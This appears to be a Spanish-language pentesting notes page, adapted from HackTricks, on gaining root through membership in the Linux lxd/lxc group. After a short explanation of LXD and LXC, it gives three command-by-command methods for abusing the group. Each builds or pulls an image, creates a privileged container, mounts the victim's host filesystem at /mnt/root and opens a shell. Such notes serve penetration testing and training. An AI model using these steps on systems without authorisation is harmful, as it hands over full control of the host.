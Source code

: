 ```yaml
---
description: Si perteneces a estos grupos puedes convertirte en root
---
```


# LXD/LXC GROUP

## INFORMACIÓN GENERAL

LXD, forma abreviada de Linux Container Daemon, es una herramienta de gestión de los **contenedores del sistema operativo Linux**.

LXD es una **tecnología hermana de LXC**, forma abreviada de Linux Containers. [LXC](https://www.ionos.es/digitalguide/servidores/know-how/que-es-lxc/) es una [tecnología de virtualización](https://www.ionos.es/digitalguide/servidores/know-how/docker-tools-el-ecosistema-docker-de-cerca/) a nivel de sistema operativo basada en contenedores. LXC combina espacios de nombres aislados y los “cgroups” del kernel de Linux para crear entornos aislados para ejecutar código. Históricamente, LXC también fue el origen de la popular tecnología de virtualización [Docker](https://www.ionos.es/digitalguide/servidores/know-how/docker-tools-el-ecosistema-docker-de-cerca/).

Uno de los objetivos básicos que había detrás el desarrollo de LXD era hacer la gestión de contenedores LXC lo más cómoda posible, como es habitual en el caso de las [máquinas virtuales](https://www.ionos.es/digitalguide/servidores/know-how/maquina-virtual/). Sin embargo, el enfoque basado en contenedores ofrece un rendimiento superior al de las máquinas virtuales.

Utilizando LXD, **los contenedores del sistema operativo Linux pueden ser configurados y controlados con un conjunto de comandos predefinidos**. Por lo tanto, es muy adecuado para automatizar la gestión de contenedores y, a menudo, es utilizado para soluciones cloud y data centers.

## VULNERABILIDADES

{% embed url="https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation" %}
Fuente
{% endembed %}

### Método 1

Puedes instalar en tu máquina atacante la aplicación distrobuilder y seguir las instrucciones de su github:

{% embed url="https://github.com/lxc/distrobuilder" %}
Fuente
{% endembed %}

```
sudo su
#Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
sudo go get -d -v github.com/lxc/distrobuilder
#Make distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```

A continuación se suben a la víctima los archivos **lxd.tar.xz** y **rootfs.squashfs.**

Después añadimos la imagen a lxd:

```
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list #You can see your new imported image
```

Creamos un contenedor y añadimos el root path:

```
lxc init alpine privesc -c security.privileged=true
lxc list #List containers

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

{% hint style="danger" %}
_**Error: No storage pool found. Please create a new storage pool**_

Ejecute _****_** lxc init** y **repita** el proceso anterior
{% endhint %}

Ejecute el container

```bash
lxc start privesc
lxc exec privesc /bin/sh
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```

### Método 2

Construya una imagen de la distro Alpine e iniciela utilizando la flag `security.privileged=true` forzando al contenedor a interactuar como root con el sistema host.

```
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686

# import the image
lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

# before running the image, start and configure the lxd storage pool as default 
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

Existe una herramienta automatizada para hacer esto:

{% embed url="https://github.com/initstring/lxd_root" %}
Fuente
{% endembed %}

### Con internet

Solo debe seguir estas instrucciones:

```
lxc init ubuntu:16.04 test -c security.privileged=true
lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
lxc start test
lxc exec test bash
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```
